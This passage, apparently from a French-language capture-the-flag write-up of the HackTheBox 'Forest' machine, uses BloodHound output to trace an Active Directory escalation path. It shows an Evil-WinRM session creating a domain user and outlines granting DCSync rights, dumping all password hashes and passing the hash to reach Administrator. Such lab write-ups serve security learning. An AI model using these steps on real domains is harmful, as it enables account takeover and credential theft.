 ```
WARNING: Failed to get service ticket for FOREST.htb.local, falling back to NTLM auth
CRITICAL: CCache file is not found. Skipping...
WARNING: DCE/RPC connection failed: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Done in 05M 13S
```
Je viens d'avoir plusieurs fichier en `.json`, maintenant utilisons `bloodhound` pour analyser le tout
- Pour le faire je vais juste importer mes fichiers json dans le `bloodhound`
- J'utilise le find shortest path to Domains Admins et je trouve le user `svc-alfresco` qui es membre de `service accounts` groupes, et ce groupe aussi est membre du `Privileged IT Accounts`, qui elle aussi peux `PsRemote` au domain `FOREST.htb.local`, ensuite celle-ci peux `DCSync` au domain `htb.local` qui contient tous les users

- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse
- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces
**DCSync & CanPsRemote Attack**
Comme mon utilisateur fait partie du Compte de service, qui est membre du Compte informatique privilégié, qui est membre des Opérateurs de compte, c'est en fait comme si mon utilisateur était membre des Opérateurs de compte. Et les opérateurs de compte ont le privilège Tout générique sur le groupe Permissions Windows Exchange. 

En rassemblant tout on obtient ceci:
Je peux:
Abuser les infos grace au `CanPsremote` pour creer un utilisateur et  garantir les privileges *DCSync*
Créer un utilisateur sur le domaine. Cela est possible car `svc-alfresco` est membre du groupe services de compte.
```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user bloman Password1 /add /domain
The command completed successfully.
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user /domain

User accounts for \\

-------------------------------------------------------------------------------
$331000-VK4ADACQNUCA     Administrator            andy
bloman                   DefaultAccount           Guest
HealthMailbox0659cc1     HealthMailbox670628e     HealthMailbox6ded678
HealthMailbox7108a4e     HealthMailbox83d6781     HealthMailbox968e74d
HealthMailboxb01ac64     HealthMailboxc0a90c9     HealthMailboxc3d7722
HealthMailboxfc9daad     HealthMailboxfd87238     krbtgt
lucinda                  mark                     santi
sebastien                SM_1b41c9286325456bb     SM_1ffab36a2f5f479cb
SM_2c8eef0a09b545acb     SM_681f53d4942840e18     SM_75a538d3025e4db9a
SM_7c96b981967141ebb     SM_9b69f1b9d2cc45549     SM_c75ee099d0a64c91b
SM_ca8c2ed5bdab4dc9b     svc-alfresco
```
Donner à l'utilisateur les privilèges DcSync. Ceci est possible car l'utilisateur fait partie du groupe Exchange Windows Permissions qui a la permission WriteDacl sur le domaine htb.local.
Effectuer une attaque DcSync et extraire les hachages de mots de passe de tous les utilisateurs du domaine.
Effectuez une attaque Pass the Hash pour obtenir l'accès au compte de l'administrateur.
